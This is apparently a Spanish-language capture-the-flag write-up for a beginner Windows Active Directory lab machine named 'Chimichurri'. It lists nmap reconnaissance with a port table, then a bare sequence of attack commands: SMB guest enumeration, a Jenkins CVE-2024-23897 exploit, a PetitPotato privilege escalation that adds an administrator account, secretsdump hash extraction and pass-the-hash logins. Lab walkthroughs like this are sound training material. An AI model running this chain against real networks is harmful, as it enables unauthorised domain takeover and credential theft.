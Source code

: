 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Chimichurri

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.50
```

para verificar la conectividad de red.



A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.50
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

Durante el escaneo, se identificaron múltiples puertos abiertos relacionados con **servicios típicos de Active Directory en un entorno Windows Server**. A continuación, se detalla cada uno:

| Puerto          | Servicio                 | Descripción                                                                   | Relevancia en Pentesting                                                        |
| --------------- | ------------------------ | ----------------------------------------------------------------------------- | ------------------------------------------------------------------------------- |
| **53**          | DNS (Simple DNS Plus)    | Servicio de resolución de nombres. Fundamental para la operación del dominio. | Enumeración de zonas, DNS spoofing, análisis de transferencias (`dig axfr`).    |
| **88**          | Kerberos                 | Protocolo de autenticación utilizado por AD.                                  | Objetivo de ataques como Kerberoasting, Pass-the-Ticket, Golden Ticket.         |
| **135**         | MS RPC                   | Microsoft RPC endpoint mapper.                                                | Comunicación entre servicios. Puede facilitar enumeración vía `rpcclient`.      |
| **139**         | NetBIOS-SSN              | Servicio para compartir archivos e impresoras (NetBIOS).                      | Usado con `smbclient`, `enum4linux-ng`, `smbmap`.                               |
| **389**         | LDAP                     | Protocolo para acceder al directorio (modo sin cifrar).                       | Enumeración de usuarios, grupos, SPNs, flags UAC. Clave en enumeración AD.      |
| **445**         | SMB (Microsoft-DS)       | Compartición de archivos en Windows.                                          | Dump de hashes, movimiento lateral (SMBexec, Psexec), enumeración sin creds.    |
| **464**         | kpasswd5                 | Servicio para cambio de contraseñas vía Kerberos.                             | Interesante para ataques como _krbrelayx_ o abuso de cuentas.                   |
| **593**         | RPC over HTTP            | Comunicación RPC encapsulada en HTTP.                                         | Utilizado por Exchange, Outlook y otras apps. A veces base de ataques internos. |
| **636**         | LDAPS (tcpwrapped)       | LDAP sobre SSL/TLS.                                                           | Enumeración segura del directorio, aunque a menudo filtrado o cifrado.          |
| **3268**        | Global Catalog (LDAP)    | Puerto usado para consultas a todo el bosque AD.                              | Ideal para enumerar objetos de todo el dominio.                                 |
| **3269**        | GC over SSL (tcpwrapped) | Versión segura del Global Catalog.                                            | Misma funcionalidad que el 3268, pero cifrado.                                  |
| **5985**        | WinRM (HTTP)             | Windows Remote Management.                                                    | Punto de entrada para `evil-winrm`. Fundamental para ejecución remota.          |
| **9389**        | .NET Message Framing     | Servicio para autenticación de AD Web Services (ADWS).                        | Utilizado por PowerShell Remoting, BloodHound, etc.                             |
| **47001**       | HTTPAPI                  | Servicio adicional HTTP, generalmente WinRM.                                  | Usado por PowerShell Remoting.                                                  |
| **49664–49712** | MS RPC dinámicos         | Puertos de comunicación RPC asignados dinámicamente.                          | Relevantes para movimiento lateral, enumeración y abuso de servicios remotos.   |

### 🔎 **EXPLORACIÓN**

Tras el escaneo, hacemos una enumeración **SMB**.

```
nxc smb 192.168.1.50
```

```
smbmap -H 192.168.200.4 -u guest
```

```
smbclient -U guest //IP/drogas
```

{% @github-files/github-code-block url="https://github.com/godylockz/CVE-2024-23897" %}

```
./jenkins_filtered.py -u http://IP:6969
```

```
evil-winrm -i chimichurri.thl -u hacker -p 'Perico69'
```

```
whoami /priv 
```

```
impacket-smbserver share $(pwd)
```

```
copy \\IP\share\PetitPotatoe.exe Potatoe.exe
```

```
.\PetitPotatoe.exe 2 "whoami"
.\PetitPotatoe.exe 3 "net user Bea Hola123 /add"
```

```
.\PetitPotatoe.exe 3 "net localgroup Administradores Bea /add"
```

```
evil-winrm -i chimichurri.thl -u Bea -p 'Hola123'
```

```
impacket-secretsdump chimichurri.thl/Bea@IP
```

```
evil-winrm -i chimichurri.thl -u Administrador -H hash
```

```
net user Administrador Hola1234 /domain
```

```
evil-winrm -i chimichurri.thl -u Administrador  -p 'Hola1234'
```
